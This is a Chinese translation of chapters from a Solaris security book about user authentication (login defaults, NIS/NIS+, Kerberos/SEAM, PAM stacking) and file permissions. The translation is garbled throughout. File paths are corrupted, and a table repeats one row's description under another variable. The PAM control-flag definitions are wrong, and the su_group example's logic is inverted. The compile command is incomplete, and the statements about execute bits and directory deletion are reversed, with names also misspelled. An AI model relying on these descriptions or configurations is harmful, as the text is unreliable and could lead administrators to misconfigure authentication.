# auths tealc
auths: tealc: No authorizations
# roles tealc
roles: tealc: No roles
```


# 理解 Solaris
## 用户认证

Solaris 通过允许系统管理员配置密码策略和过期时间，在基础 UNIX 认证的基础上进行了构建。

| Variable | Purpose |
| :--- | :--- |
| `CONSOLE` | 如果设置，所有尝试都记录到系统控制台。 |
| `SYSLOG` | 如果设置，所有尝试都记录到系统控制台。 |
| `UMASK` | 初始掩码。更严格的站点可能希望设置为027。 |
| `SLEEPTIME` | 登录失败前的等待时间（秒）。 |
| `TIMEOUT` | 设置登录被拒绝前的持续时间（秒）。 |
| `ALLOW_AGED_PASSWORD` | 如果设置，将允许使用过期密码。 |
| `PASSREQ` | 如果设置，登录账户将需要密码。 |

| Variable | Purpose |
| :--- | :--- |
| `PATH` | 设置登录的初始路径。这可以提供安全或便利。 |

| Variable | Purpose |
| :--- | :--- |
| `SULOG` | 如果存在，此变量指定记录所有尝试的文件。 |
| `CONSOLE` | 如果为 YES，所有对 root 的尝试都记录到系统控制台。 |
| `SYSLOG AND PATH` | 与表4.2相同，对于 `/etc/default/login.` |

这种搜索顺序意味着系统会搜索 `/etc/passwd` 和 `/etc/shadow` 以获取用户的凭据。如果没有找到条目，则搜索 NIS。如果仍未找到，则系统调用将失败且用户被拒绝为未知。否则，登录时提供的密码将进行哈希处理，并将哈值与搜索返回的哈值进行比较。如果它们匹配，则通过用户验证并继续登录。

`nswitch.conf` 中还有其他有效条目。输入 `nisplus` 会导致对 NIS+ 密码数据库搜索。可以使用关键字 `compat`（且不带其他选项），使系统在与 BSD 密码文件语法兼容的 netgroup 继承模式下运行（参见侧边栏）。

其他 PAM 模块的工作方式不同；但大多数用户验证方案都涉及从用户处获取用户名和密码，将其提供给验证服务进行校验，并根据情况接受或拒绝登录。还有其他可行的方法，但绝大多数电子邮件客户端、安全外（SSH）客户端、FTP 客户端等都是针对用户名/密码对设计的。Kerberos 的不同之处在于它使用加密凭据进行身份验证；这将在章节中讨论。

对于任何使用可重用凭据的身份验证形式，易受网络窃听的服务都面临安全风险。对于 shell、X-Windows 连接转发、POP 和 IMAP 访问以及文件传输存在安全的替代方案。这些替代方案通常是安全客户端或支持 SSL 的邮件客户端，通过对整个通道加密来保护密码免受网络间谍的影响。任何运行可重用密码的明文服务都面临嗅探的风险。（像 OPIE、S/key 或 secured 等一次性密码系统除外。）

# 使用 NIS 和 NIS+ 验证用户身份

NIS 可能是目前最常用的网络资源。NIS 最初被称为“黄页”（YP），其根源可以追溯到 Sun Micros 的早期。正如人们对这种古老的技术所预期的那样，它是易于理解且可靠的，但充满了漏洞。NIS+ 是 NIS 的直接后代，旨在解决原始系统中固有的某些性能和安全问题。

本节将讨论分布式身份验证系统中固有的某些安全问题。NIS 和 NIS+ 之间的个体差异不如对它们所代表的风险进行最佳实践概述重要。


LDAP 也存在相同的风险，尽管这种日益流行的技术进一步减少了这些风险。

良好的实践包括：

- 保持 root 账户位于本地。虽然 NIS 中常用的 UID 0 账户使系统管理变得更容易，但它更容易受到攻击。
- NIS 和 NIS+ 主节点应该是受限访问的机器。这不仅让机器免于运行用户进程，还防止了映射列表的直接暴露。
- NIS 主节点应使用 `/var/yp/securenets` 来确保只有已知客户端能成功执行 `ypbind`。NIS 从节点服务器应使用 securenets 文件和带有 `localhost` 条目的本地 `yservers`，并绑定到自身。
- 在 NIS 从节点服务器上禁用 `/var/yp/Makefile`。虽然这不是一个安全问题，但从节点服务器的意外推送会导致诊断问题的困难。
- 尽可能使用阴影密码（shadow passwords），因为它们减少了密码哈值的暴露。在现代 CPU 的帮助下，John Ripper 和 Crack 等工具可以在几天内暴力破解数百个密码。
- 当 NIS 和 NIS+ 在使用 SecureRPC 和数据加密标准 (DES) 进行身份验证时，应限制在管理员拥有严格控制的网络中。特别是大学，绝不能向学生网络提供 NIS。
- NIS 和 NIS+ 严重依赖于 RPC。考虑 Weise Venema 的 `portmapper`，它为 RPC 引入了类似 tcpwrapper 的功能。另一个选项是 `ipfilter`，通过作为内核级数据包过滤器可以显著限制对 RPC 服务的访问。
- 使用 SecureRPC，它依赖 DES 密钥来加密和身份验证事务。
- 除了在少数情况下，否则 NIS+ 服务器应运行在安全级别 2 下。在安全级别 2 下，将启用完整的身份验证和访问检查，并使用 DES 认证和加密。

NIS 和 NIS+ 的安全原则可以总结为：信任单机而非整个网络，让普通用户远离信息存储器，使用 SecureRPC 验证对信息存储器的访问，并使用防火墙、ipfilter 或 portmapper 替代品来控制访问你服务的人。

# 工具与陷阱……

# 属于你自己的服务器

有时出于安全或可靠性考虑，拥有一个不允许普通用户访问的服务器是有用的。Solaris 以 SunOS 4 的 BSD 版本的形式继承了一个方便的技巧，即 `兼容模式`。

要使用兼容模式创建受限访问机器，请通过向 `/etc/netgroup:` 的末尾添加以下行创建新的 netgroup `sysadmin users`：

```
sysadminusers \\
(scarter,)
```

然后，使用 `view` 编辑受限访问机器上的 `/etc/password` 并在该文件的末尾添加以下行：

```
+sysadminusers:x:::
+x:::/bin/false
```

`pwconv` 工具并不擅长将上述内容正确翻译为 `/etc/shadow`，因此手动编辑该文件以追加以下：

```
+sysadminusers:10530:::
+:10530:::
```

此语法告诉 Solaris 继承所有属于 `sysadmin users` netgroup 的用户，同时将其他人的 shell 替换为无效条目 `/bin/false`。剩下的工作是通过更改 `/etc/nwitch.conf` 中的密码行来启用兼容性：

```
passwd: compat
```


现在，系统管理员可以正常登录，但其他（本应有效的）账户将被不可用的 shell 拒绝。

# 使用 Kerberos 验证用户身份

Kerberos 以希腊神话中守护冥界的三个头犬命名，是一种在 MIT 设计的身份验证系统。它旨在通过验证用户、服务和主机提供高水平的安全。它旨在防止窃听。它本身不是一个加密系统，但其性质有助于加密的使用，因为服务器和用户共享一个密钥。


# 工具与陷阱……

# 时间的重要性

Kerberos 使用工作站时间来识别当前用户。Kerberos 令牌具有固定，在发布时间之前或过期之后无效。这些机制防止了重放攻击，即黑客窃听令牌伪装成有效用户。尽管 Kerberos 包含了多种防止重放攻击的机制，但确保网络上所有工作站和服务器的时间正确，并与 Kerberos 密钥发行中心 `KDC` 密切同步至关重要。

幸运的是，网络守护进程 `ntpd` 与高级时间服务器通信以确定正确时间，调整时钟偏移并保持节点间同步。

大型 Kerberos 站点通常使用 GPS 钟作为时间服务器。对于大多数位置，几个配置为轮询可靠时间服务器（如华盛顿海军观测或 NIST）的服务器就足够了。其他服务器和工作站轮询这些服务器获取正确时间。NIST 时间服务器列表可以在 `www.nist.gov/timefreq/service/time-servers.html` 找到。

Kerberos 是一种第三方身份验证系统。本质上这意味着以 `KDC` 为形式的受信第三方既信任你也被你信任。你正在验证的计算机或服务也信任 `KDC`。因为 `KDC` 能够安全地识别你，而远程计算机相信 `KDC` 的判断，因此该机器也信任你。类似的过程也反向运行，以确保你安全地连接到预期的机器和服务（登录、`rsh`、`FTP` 等）。

在本节中，我们将简要介绍 Kerberos 的工作原理，然后讨论 Sun 企业身份认证机制 `SEAM` 产品，其安装和

## 第 4 章 保护您的用户

配置以及如何使用它来保护您的网络。我们将讨论与 Kerberos 相关的一些陷阱和安全风险。

为了理解 Kerberos 及其作为身份验证系统的优势，我们需要查看传统的服务，例如 `rlogin`。当客户端发起 `rlogin` 连接时，`rlogin` 会将本地用户的名称发送到服务器以进行身份识别。如果服务器信任客户端或用户（通过 `hosts.equiv` 或 `.hosts` 文件），则允许连接并让用户登录。在没有基于主机的信任的情况下，用户被强制提供密码作为身份识别依据。这种方法的一个问题是，密码在网络上以明文形式传输，任何窃听者都可以轻松获取它。此外，该系统还假设在某些情况下，远程主机可以根据其 IP 地址被隐式地信任。

安全外壳 `SSH` 通过使用加密缓解了其中一些问题。连接的服务器端通过公钥加密进行识别。如果服务器的公钥与客户端之前缓存的公钥匹配，用户就可以确定自己连接到了正确的主机。所有的身份验证凭据（实际上是整个连接）都通过加密通道传输。这似乎是理想的，但事实上，它存在两个重大弱点。首先，`SSH` 没有一种机制可以在初始连接时为客户端安全地识别远程主机。用户必须假设自己已经到达预定目标，并保留第一次呈现的公钥副本。如果攻击者能够重定向该初始会话，他就可以在不给客户端带来任何异常迹象的情况下控制所有会话。其次，`SSH` 与其不安全的同类一样，是基于一种披露的身份验证系统。此时，密码在身份验证过程中会被泄露，并可能被受攻击的服务器捕获和提取。

Kerberos 试图解决这两个问题；它是一种非披露的身份验证系统，提供了一种能够安全识别连接每个端点的机制。

当用户被添加到 `KDC` 时，他们的初始密码被用于生成一个唯一的哈希值，该哈希值由服务器存储。通过 `kadmin` 的账户创建过程是安全的，且密码不可恢复的。当用户首次登录时，登录过程会联系 `KDC` 并请求票据颗粒 `TGT`。该票据包含用户名、票据有效期、发行该票据的 `KDC` 的某些加密标识符等信息。然后，使用存储的哈希值作为密钥对整个票据进行加密。当登录过程使用提供的密码，能够解密并将该票据本地存储在 Kerberos 所称为缓存的地方时，登录即为成功


`cache` 中。由于你是唯一拥有可以解密该票据的正确密码的人，因此你被正确识别。之前放置在您的工作站上的名为 `keytab` 的文件标识了您的机器，并在登录过程中使用，以确保收到的 `TGT` 来自来自真实的 `KDC`。通过这种方式，Kerberos 授予了对您的信任，并确保您登录的机器是之前识别过的那台。最重要的是，您的密码永远不会泄露给 `KDC`，也永远不会跨网络传输，即使是加密形式也是。这是 Kerberos 的基本原则之一，正如我们稍将看到的，这也是其被广泛采用的一个弱点。

现在您已经有了 `TGT`，让我们尝试理清典型服务（如 Kerberos 登录）在登录过程中触发的一系列事件。Kerberos 服务器生成一个带有远程服务器标识符的随机会话密钥，并使用您的会话密钥（现在存储在您的 `TGT` 中）对其进行加密。它还将该会话密钥以及您的用户名存储在用远程服务器拥有的服务密钥加密的票据中。当您的登录副本接收到这两张票据时，它使用存储在 `TGT` 中的密钥来解密您的票据，以恢复会话密钥。`Rlogin` 无法解密另一个票据；只有远程服务器可以解密。`Rlogin` 获取当前时间，使用服务密钥加密证明您拥有有效的 `TGT`，并将新票据连同另一个不可解密的票据发送给服务器。

当远程服务器接收这两个票据时，它使用自己的密钥解密第一个，恢复出会话密钥。它可以使用该密钥来恢复您发送的时间。如果时间匹配（允许微小偏差），服务器就证明您是您所声称的。作为益处，连接的每一侧现在都有了一个唯一的随机密钥，可以保证不受窃听或篡改，并且现在可以使用它加密登录连接。您不需要输入密码，只要您的 `TGT` 有效，就不需要。

Sun 的 `SEAM` 软件包将 Kerberos 带入了 Solaris。`SEAM` 提供了执行身份验证的 `pam_krb5` 模块，以及 Kerberos 版本的 `FTP`、`login`、`rsh`、`rcp` 和 `Telnet` 服务。在 `SEAM` 安装过程中，创建了一个新的 Kerberos 领域 `realm`。领域大致是 Kerberos 中 `NIS` 或 `NIS+` 的等物。领域代表了一组用户和管理员身份验证数据，


## 第 4 章 · 保护您的用户


## Kerberos：它真的可靠吗？

Kerberos 最初在 MIT 开发，远早于互联网流行或许多人拥有计算机的时代。MIT 拥有优秀的内部开发优势，最重要的是，Kerberos 是在一个随着对计算机的需求增长而发展的环境中产生的。在这种情况下，Kerberos 的广泛使用与计算资源的需求增加是并行的。批评者指出，赋予 Kerberos 无与伦比的防监听能力的根本原则也是它最大的弱点。密码永不出现在网络上在如今这个 Web 浏览器、混合平台环境和大量电子邮件客户端的时代是一个难以实现的现实。即使在 UNIX 世界中，本地凭据缓存和 Kerberos 软件是易于开发和部署的

必须做出某些妥协。极少数 `IMAP` 或 `POP` 服务器或客户端能够通过凭据处理纯正的 Kerberos 认证。大多数系统仅获取用户名和密码，并将它们以明文形式通过网络发送到 `KDC` 进行身份验证。这与传统的密码系统没有区别。Windows 或 Macintosh 的管理系统很少，但目前可用的系统中大多是由 MIT、斯坦福大学、卡内基·梅隆大学或密歇根大学等主要大学开发的，并针对它们的环境进行了定制。

由于缺乏 Kerberos 化的客户端，使得广泛使用纯 Kerberos 变得困难。`SEAM` 在同质的 Solaris 环境中解决了许多此类问题。Kerberos 证明了风险评估和风险管理的重要性。了解你的弱点和需求。仔细评估一个安全系统是减少了你的漏洞，还是仅仅将它们转移了。这并不是为了阻碍使用 Kerberos，而是为了鼓励对你的风险以及用于最小化这些风险的技术进行冷静、客观的评估。无疑，某些站点会发现 Kerberos 是其认证需求的答案。

`SEAM` 还利用 `kpasswd` 命令来方便修改密码。一旦用户获取了票据，系统将提示为当前主体 `principal` 输入新密码，进行验证并更改密码。它的操作和界面对于任何用过 `password` 命令的人来说都是熟悉的。Kerberos 在 `KDC` 上提供了有限的密码强度检查和可配置的词策略，要求密码具有最小长度，并包含足够数量的字符类型（Kerberos 指定了四种类型：大写、小写、数字、其他）。

`SEAM` 的大多数认证操作都可以通过 `pam_krb` 模块进行配置。下一节将介绍 PAM 的使用以及如何更改不同服务使用的认证程序和方法。

# 使用可插认证模块 `PAM` 进行用户认证

随着 Solaris 2.6 的引入，Sun 接受了近年来最强大的认证概念之一。可插认证模块 `PAM` 最初是一个 Linux 概念，它将认证过程


从 `su`、`login`、`ftppd` 和 `ssh` 等程序中抽象出来。相反，认证是由一个独立的模块化过程执行的。在最基础的，`PAM` 模块负责回答简单的问题：“该用户是否被允许在此处？”

`PAM` 框架使得通过许多非传统的方法识别和限制用户访问成为可能。`PAM` 扩展支持 `S/key` 和 `SecUserID` 等一次性密码系统，以及如 Kerberos、`LDAP` 或 `Radius` 等替代认证系统。`PAM` 还可以根据时间、配额、入站主机、组组成或几乎任何其他因素确保访问。`PAM` 系统创建了在其发明之前不存在的安全性灵活性。通过将认证系统模块化，软件作者可以简单地与 `PAM` 接口，允许系统管理员选择适合其环境的最佳认证方法。

每种类型都有 `PAM` 透明的服务。大多数 `FTP`、`POP` 和 `IMAP` 服务器都支持 `PAM`。原生的 `login`、`Telnet`、`FTP` 甚至 Solaris 的 `login` 都是 `PAM` 透明。`OpenSSH` 和最近的商业 `SSH` 服务器支持 `PAM`。这使得在大量机器上部署新的认证或授权系统变得简单。

我们将从查看默认 `PAM` 配置文件 `/etc/pam.conf` 开始。我们将讨论该文件中的选项以及如何针对特定目的进行定制，并使用三个示例来说明 `PAM` 的功能。在第一个示例中，我们将使用 Casper Dik 的 `su_group` `PAM` 来防止非 root 组用户尝试 `su`。在第二个示例中，我们将禁用 `.hosts` 和 `hosts.equiv` 文件，防止你的用户无意中暴露你的网络。在最后一个示例中，我们将看到如何安装和配置 `PAM` 系统以支持一个新的 `IMAP` 服务器。

图 4.1 所示的 `PAM` 配置文件被分为一系列列。

登录服务（以 `/bin/login` 程序的形式存在）在 Solaris 下是 `PAM` 透明的。在 Solaris 下，`PAM` 模块负责回答简单的问题：“该用户是否被允许在此处？”当登录程序开始时，它会连接到共享对象共享对象 `pam_unix.so`。该对象处理大多数认证、授权和账户管理。

让我们仔细观察图 4.1 中的以下行：


`login    auth required /usr/lib/pam_unix.so`

# 图 4.1 pam.conf


服务列通常由服务的名称组成。显然的情况包括 FTP、Telnet、rlogin、ssh、dlogin 和 su。`*` 是一个通配符名称，旨在替代 `pam.conf` 中未定义的任何服务。

服务列后的下一列称为*模块*类型。在之前的示例中，*auth* 描述了 PAM 执行的任务。在这种情况下，登录过程将使用 *pam_unix*。有效选项及其含义见表 4.4。

# 表 4.4 模块类型

| 模块类型 | 描述 |
| --- | --- |
| Auth | 该模块用于认证。 |
| Password | 模块更改或重置凭据。 |
| Account | 模块执行账户管理，包括过期和锁定。 |
| Session | 会话管理模块。 |

第三列是控制标志，`required`。这允许堆叠执行不同的功能。有效选项见表 4.5。

# 表 4.5 控制标志值

| 控制标志 | 描述 |
| --- | --- |
| Optional | 标记为可选的模块在某些条件下需要成功。 |
| Sufficient | 该模块是执行模块类型字段指定任务所需的。 |
| Requisite | 在继续认证之前必须满足这些模块所施加的。“Requisite”听起来有点奇怪，“Prerequisite”（先决条件）会是一个更好的术语。 |
| Required | 这些模块必须成功完成。某些异常在下面的列表中注明。 |

选项根据以下规则堆栈：

- 堆栈从上到下按照 `pam.conf` 中的顺序处理。
- 如果所有 `requisite` 和 `required` 模块都成功，则忽略 `sufficient` 或 `optional` 模块产生的任何错误并继续。
- 如果任何 `requisite` 或 `required` 模块失败，认证过程终止并向系统返回失败性质。错误代码可以指示系统账户已锁定、不存在、无效，或者密码错误或需要更改。
- 如果没有指定 `requisite` 或 `required` 模块，则至少有一个 `sufficient` 或 `optional` 模块必须通过才能继续。
- `requisite` 标志在特殊情况下可能会失败。在这些情况下，如果 `requisite` 模块失败，即使先前的 `required` 模块成功，认证也会失败。
- `sufficient` 标志在特殊情况下可能会成功。如果一个 `sufficient` 模块成功，PAM 堆栈将在该处成功终止并允许访问服务。使用这种控制标志可能是极其危险的，因为它允许在没有任何形式的用户身份识别的情况下访问系统。误将 `sufficient` 替换为

# 用户安全 • 第 4 章

`requisite` 选项可以允许 `root` 组中的任何用户无需输入密码即可执行 `su`。因此，系统管理员应警惕此标记。

在第一个示例中，我们将此类尝试限制在属于 root 组的管理员范围内。该功能最初出现于类 BSD 风格的 UNIX 系统，如 SunOS 和 IRIX。许多站点希望防止普通用户进行此类尝试，既是因为这减少了针对 root 账户的暴力破解，也因为让认证日志更易读。（Solaris 2.6 重新引入了 su 命令，该命令具有长时间的失败延迟且不会响应控制-C 响应）。Casper Drik 使用简单的 PAM 模拟了这一功能。可以在 www.science.uva.nl/pub/solaris 找到它。

首先，你需要配置 PAM：

```bash
su_group0.c -o su_group0.so -Kpic -G -lpam
```

这将生成一个共享对象。将其拷贝到默认 PAM 位置，并在下面的代码示例中设置适当权限。作为一种安全特性，PAM 系统将忽略任何权限松散或具有特权所有权的模块。

```bash
# cp su_group0.so /usr/lib/security
# chown root:other /usr/lib/security/su_group0.so.1
# chmod 755 /usr/lib/security/su_group0.so.1
```

编辑 `/etc/group` 文件并按图 4.2 所示更改 root 行。打开 `pam.conf`，找到以下行：

```bash
su auth required /usr/lib/security/pam_unix.so.1
```

你的新 PAM 将检查启动 `su` 命令的人员的组身份。如果意图是 切换到 root，PAM 将判断用户是否为 root 组的成员。如果是，认证过程将终止并返回错误，显示“You have no permission to su root”。为了实现这一点，PAM 必须是 `pam_unix` 提供的认证的前决条件。在用户被提示输入 root 密码之前，它必须成功通过。因此，你需要在上方行之前立即添加以下行。务必保留原始条目。

```bash
su auth requisite /usr/lib/security/su_group0.so.1
```


# 第 4 章 • 安全你的用户

# 图 4.2 将用户加入 root 组



# 图 4.3 配置 su_group0 PAM



你的 `pam.conf` 现在应该看起来像图 4.3 所示。

这是一个极佳的示例，说明误用或意外使用控制可能会导致严重问题。只需将“`requisite`”改为“`sufficient`”，就会允许 root 组中的任何用户无需任何密码即可执行 `su`。

下一个示例将显示如何完全禁用 `hosts.equiv` 和 `hosts` 文件。这些机制最初被视为一种便利，但现在被认为会对网络构造成不必要的风险。此外，在发生入侵时，它们极大地增加了扩散风险（攻击者在主机之间跳转的能力）。对于系统之间的单点登录或无密码访问，更好的选择是执行强力主机和用户认证的，例如 Kerberos 或 SSH。

在最后一个示例中，假设你安装了华盛顿大学提供的最新 IMAP 服务器。它是 PAM 感知的，支持 SSL 加密连接，并处理各种信箱格式。如果编译时支持了 PAM，则很容易替换认证方法。假设你的用户无法访问支持 SSL 的邮件客户端，因此你为所有此类远程明文访问网络向他们颁发了 SecurID 令牌。你不希望他们为 IMAP 使用其 UNIX 密码。此外，只应允许具有有效 shell 的用户访问。

`pam.conf` 顶部的条目将导致 IMAP 检查 `/etc/shells` 并要求 SecurID 而不是 UNIX 密码：

```bash
imap auth requisite
/usr/lib/security/pam_shells.so.1
imap auth required
/usr/lib/security/pam_securid.so.1
```


任何具有无效 shell 或无法提供有效 SecurID PIN 和令牌编码的人将被 IMAP 服务器拒绝。

## 总结

可靠的认证方法和策略是任何安全系统的核心。Solaris 为提高认证安全性和灵活性提供了许多工具。它允许广泛的配置以支持仅限 `su` 的账户、密码过期和密码强度限制。基于角色的访问控制 (`RBAC`) 允许系统管理员定义特定任务并在安全管理器中委托这些任务，而无需提供完全的 `root` 权限。`NIS` 和 `NIS+` 允许系统在异构 UNIX 网络中作为客户端或服务器参与，提供了一个安全的认证框架。随着 Sun 企业认证机制的发展，简单且可靠的 Kerberos 部署成为可能。通过像 `login` 和 `Telnet` 等 Kerberos 服务——这些通常是任何网络中最大的安全漏洞之一——可以进行强认证和可靠安全。最后，可插认证模块 (`PAM`) 允许系统管理员选择最适合其环境的认证和授权框架。`PAM` 不再限于存储在系统本地的用户名/密码对，它允许轻松迁移到 Kerberos、一次性密码系统，或与 `SMB` 等替代认证框架简单集成。

## 解决方案快速通道

### 创建安全的组成员关系

- Solaris 在安装时提供几个组。大多数是为系统工具和守护进程预留的。`sysadmin` 组允许访问 `Admintool`。通常，`GID` 小于 `100` 的预留给默认组，大于 `60,000` 的也是如此。注意，`Admintool` 分配了默认组 `0`，这是一种安全风险。
- 每个用户都是一个主组的成员，并且最多不超过 `16` 个辅助组。
- 基于角色的访问控制 (`RBAC`) 是 Solaris 8 的新增功能。它允许系统管理员将以前保留给 `root` 用户的某些任务委托给个人或组。`RBAC` 通过提供一种定义新角色、将这些角色委托给用户或组以及轻松撤销此类权限的方法，尝试解决 UNIX 系统上常见的“全有全无”的权限集问题。

### 理解 Solaris 用户认证

- `/etc/default`、`passwd`、`swd` 和 `login` 这三个文件控制账户和登录策略。在那里，系统管理员可以设置默认 `umask`、路径、密码长度限制和密码过期时间。
- Solaris 使用 `/etc/n.conf` 文件来确定搜索平面文件、`NIS` 或 `NIS+` 等信息服务的顺序。

### 使用 NIS 和 NIS+ 认证用户

- 分布式认证系统需要安全最佳实践，而不是对缺陷和解决方案进行逐点审查。
- 分布式网络数据库的理想网络由一组管理员完全控制。不允许用户在网络上运行自己的机器，也不向此类机器提供 `NIS` 或 `NIS+`。
- 使用 `SecureRPC` 认证并加密 `RPC` 事务。
- 如果 `SecureRPC` 不可用或难以管理，可以使用 `ipfilter` 或 `portmapper` 替代品来防止对 `RPC` 服务的未经授权访问。
- 保持 `UID 0` 账户本地严格保护。`root` 类账户不应出现在 `NIS` 中。

### 使用 Kerberos 认证用户

- `Kerberos` 是一种依赖于第三方（密钥发行中心 `KDC`）相互信任的认证系统。`Kerberos` 的基本原则是 `Kerberos` 主体或密码永远不会在网络上传输，即使是加密形式。
- `Kerberos` `get` 票据 (`TGT`) 保存在工作站的凭据缓存文件中。这些票据具有配置的有效期。只要 `TGT` 有效，用户就无需输入密码即可连接到 `Kerberos` 服务。这种功能被称为单点登录。


### 第 4 章 · 保护您的用户

- 通过允许在 `KDC`、服务和用户之间安全地交换秘密密钥，`Kerberos` 使得 `login`、`rsh` 和 `Telnet` 等常用应用程序的加密版本成为可能。
- `PC` 和 `Macintosh` 平台缺乏 `Kerberos` 版本的客户端（特别是对于通过电子邮件软件时），这阻碍了它在大多数站点的有效部署。
- 使用 `PAM` 认证的 `login` 或 `/usr/krb5/bin/kinit` 会创建一个凭据缓存。从那时起，在缓存的有效期内，所有的 `Kerberos` 登录、`rsh`、`rcp` 和 `Telnet` 命令将不再需要密码。使用 `-x` 选项可以强制这些命令创建加密通道。
- 退出登录时，应使用 `/usr/krb5/bin/kdestroy` 来移除现有的凭据缓存。这可以防止攻击者可能使用仍然有效的票据（`ticket`）伪装成另一个用户。

### 使用可插认证模块 (PAM) 验证用户

- `PAM` 提供了一种灵活、可扩展的认证机制。`PAM` 可以控制用户账户的所有方面，从身份验证到会话和密码管理。`PAM` 模块是可堆叠的，即模块可以按任何顺序执行，某些模块始终需要，而某些模块只需满足，即可实现不同的安全策略。
- 各种 `PAM` 配置允许根据组组成关系访问某些管理级功能。
- 某些服务可以要求不同的认证方法（如 `SecurID` 或 `Radius`），而不会影响其他服务，只需通过更改 `pam.conf` 即可。


## 常见问题

以下常见问题由本书的作者解答，旨在衡量您对本章所提概念的理解程度，并帮助您在现实生活中实现这些概念。如果您想让作者回答您关于本章的问题，请访问 www.synergy.com/solutions 并点击“提问作者（Ask the Author）”表单。

问：`SEAM` 会与 `MIT Kerberos` 互操作吗？

答：通常情况下，肯定的。`SEAM` 使用不同的方法来验证安全 `RPC` 事务，因此 `SEAM` 的 `kadmin` 可能与 `MIT KDC` 配合，反之亦然。此外，`SEAM` 中不存在 `ksu`。`ku` 提供的功能和详细的角色管理通过传统的 `sum` 命令和 `PAM` 提供。所有现有 `MIT Kerberos` 基础设施的站点都应该发现 `SEAM` 的安装和配置非常相似。

问：我找到的都是 Linux 模块。它们在 Solaris 下能工作吗？

答：`Linux` 使用 `PAM` 函数的声明集略有不同。然而，大多数原始在 `Linux` 上编写的 `PAM` 模块在 `Solaris` 下可以正确编译并正常运行。

问：在我的 Solaris 2.x 系统上找不到 `pam.conf`。这是怎么？

答：Solaris 2.5.1 以一种极简且不灵活的方式支持 `PAM`。所有的 `PAM` 认证函数都被合并到了一个大模块 `pam_authen` 中，由感知 `PAM` 的应用程序使用。更改 `PAM` 模块需要替换整个模块，这将以安全或易用性为代价。Solaris 2.6 引入了本文描述的 `PAM` 系统。在 2.6 上编译的模块通常可以在任何最近的 `Solaris` 版本上按设计运行。

问：我修改了 `NIS` 映射，它们成功推送了，但往往在过了很长时间后更改才会生效。发生了什么？

答：Solaris 使用名称缓存守护进程（`nscd`）来缓存 `NIS` 映射和 `DNS`。实际更改与 `nscd` 反映更改之间的时间范围从几分钟（密码条目）到一个小时（组或主机条目）不等。为了减少这种延迟，请更改 `/etc/nscd.conf` 中的正存生存时间（`TTL`）值，其单位为秒。然后重启 `nscd`：

```
# /etc/init.d/nscd stop

# /etc/init.d/nscd start
```


# 第 5 章 · 保护您的文件

采取通过保护文件本身来保护您的文件系统的第一步。在我们开始这一路之前，我们必须确保理解文件系统的组成、细小疏忽如何导致漏洞以及微小的步骤如何带给我们安全性。我们从复习权限（模式）开始，并讨论一些重要的节点。

Solaris 的根源在于 System V Release 4 变体，且文件系统与其有许多相似之处。文件系统的安全由访问权限控制，这反过来决定了用户对每个文件做什么。（请记住，目录只是特殊的文件，它包含文件的内容和指向它的节点。）这些权限由三个简单的部分组成：

- 读取：用户启动的进程打开文件并读取内容。对于目录，这意味着用户可以列出目录的内容。
- 写入：用户启动的进程修改文件内容。对于目录，这意味着进程可以取消文件的链接。换句话说，可以从目录中删除文件。
- 执行：用户启动的进程执行文件。这对于编译后的二进制文件或作为二进制文件运行的脚本没有意义。此外，脚本文件需要可读，执行位才能产生任何影响。对于目录，这意味着进程可以将该目录设置为工作目录。注意，用户不需要执行权限即可创建目录。没有执行权限也允许用户删除文件，即使他们没有将特定目录设置为工作目录。

这些权限通过应用 `umask` 进行动态修改。`umask` 在 `/etc/default/login` 中全局设置，但用户可以在他们的 `.profile`、`.cshrc` 或通过命令行进行覆盖。`umask` 提供一个进制值，在创建文件时将从默认权限中减去。例如，默认目录权限为 `777`，默认 `umask` 为 `022`，因此创建目录后留下的权限为 `755`。

## 权限与所有权

权限适用于三类用户：所有者、组和其他用户。每个用户至少属于一个组，并且可以（也应该！）属于多个组。属于多个组的用户可以通过执行 `newgrp(1)` 命令来更改其组属性（实际组 ID 和有效组 ID）。组是 Solaris 安全中一个非常有用但经常被忽视的方面。我审计过许多公司的系统，也见过过实施良好的组管理。通常，我看到的是一对一的比例，即用户只属于一个组。这极大地限制了系统管理员的灵活性，但其背后的逻辑显而易见。维护组虽然耗力，但这种努力是完全值得的。让我们花一点时间回顾一下 `/etc/group` 文件的格式，以及组如何增加基础安全性。

`/etc/group` 文件的格式与 `/etc/passwd` 文件相似，区别在于每个字段的组成。这些字段具有以下值：

- *组名 (Groupname)*
- 组密码
- 组 ID (GID)
- 用户1, 用户2, 用户3。

这些字段非常浅俗易懂，但我们应该指出关于组密码的一个细节。目前，没有 Solaris 命令可以帮助创建组密码。组密码的使用频率低于组本身。它们允许那些未列在 `/etc/group` 文件中的用户切换到某个组。如果你想给组分配密码，可以使用 `passwd(1)` 命令在 `/etc/shadow` 文件中创建哈希值，然后将该值剪切粘贴到 `/etc/group` 文件的组字段中。可以使用 `groupadd(1)` 命令添加组，使用 `groupmod(1)` 修改组，并使用 `groupdel(1)` 删除组。

权限是在最特定的级别上进行检查的，这意味着如果一个用户属于该文件的组，则不会再检查该用户的其他权限；而对于文件的所有者，则不会检查其组权限。Solaris 足够聪明可以检查 `/etc/group` 文件。如果你属于该文件的组，你将被允许拥有组权限，无论你当前的 GID 是什么。为了演示，假设我们的管理员在根目录下创建了一个名为 `/public_notices` 的目录。该目录用于向特定类别的人分发信息，这项任务并不适合这样做。我们的管理员已经分配了适用于特定用户的权限和所有权


